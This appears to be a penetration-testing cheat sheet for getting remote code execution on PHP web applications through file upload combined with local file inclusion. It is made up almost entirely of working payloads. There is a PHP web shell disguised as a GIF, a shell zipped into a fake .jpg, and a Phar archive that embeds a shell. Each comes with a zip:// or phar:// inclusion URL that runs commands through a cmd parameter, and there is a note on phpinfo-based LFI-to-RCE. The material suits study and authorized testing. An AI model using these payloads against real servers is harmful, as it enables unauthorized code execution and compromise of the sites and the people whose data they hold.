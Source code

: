 
### Image Upload

Malicious image file upload
```shell-session
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```


### ZIP Archive Upload

Malicious zip archive (PHP-only & Not enabled by default) (Better for when zips can be uploaded)
```shell-session
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

Execute Payload (ZIP wrapper)
```
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```


### Phar Upload

PHP file content
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

Phar file packaging
```shell-session
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Execution payload
```http
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

### PHP Info Attack

Requirements needed to work (Very uncommon)
```
LFI + uploads enabled + old PHP + exposed phpinfo()
```

https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/lfi2rce-via-phpinfo.html

